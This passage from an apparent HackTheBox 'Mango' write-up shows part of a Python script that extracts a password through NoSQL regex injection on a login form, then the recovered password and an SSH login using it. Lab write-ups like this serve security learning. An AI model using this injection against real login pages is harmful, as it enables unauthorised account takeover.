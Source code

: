 ```python3
                post_data = {'username':username, 'password[$regex]':"^" + payload, 'login':'login'}
                r = requests.post(url, data=post_data, allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 16:
                        print("\nMango password: " + payload)

                        exit(0)
                    break
```

This way I got the password as `h3mXK8RhU~f{]f5H` which was of `mango` user.

## Unprivileged User to Privileged User

Now I tried ssh into mango user with that creds I got mango shell.

```bash
root@gr41n73:~# ssh mango@mango.htb
The authenticity of host 'mango.htb (10.10.10.162)' can't be established.                                                                             
ECDSA key fingerprint is SHA256:AhHG3k5r1ic/7nEKLWHXoNm0m28uM9W8heddb9lCTm0.                                                                          
Are you sure you want to continue connecting (yes/no/[fingerprint])? uyes                                                                             
Please type 'yes', 'no' or the fingerprint: yes                                                                                                       
Warning: Permanently added 'mango.htb' (ECDSA) to the list of known hosts.                                                                            
mango@mango.htb's password:                                                                                                                           
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)                                                                                    
                                                                                                                                                      
 * Documentation:  https://help.ubuntu.com                                                                                                            
 * Management:     https://landscape.canonical.com                                                                                                    
 * Support:        https://ubuntu.com/advantage                                                                                                       
                                                                                                                                                      
  System information as of Sat Apr 18 09:22:51 UTC 2020                                                                                               
                                                                                                                                                      
  System load:  0.0                Processes:            99
  Usage of /:   25.9% of 19.56GB   Users logged in:      0
  Memory usage: 14%                IP address for ens33: 10.10.10.162
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
```
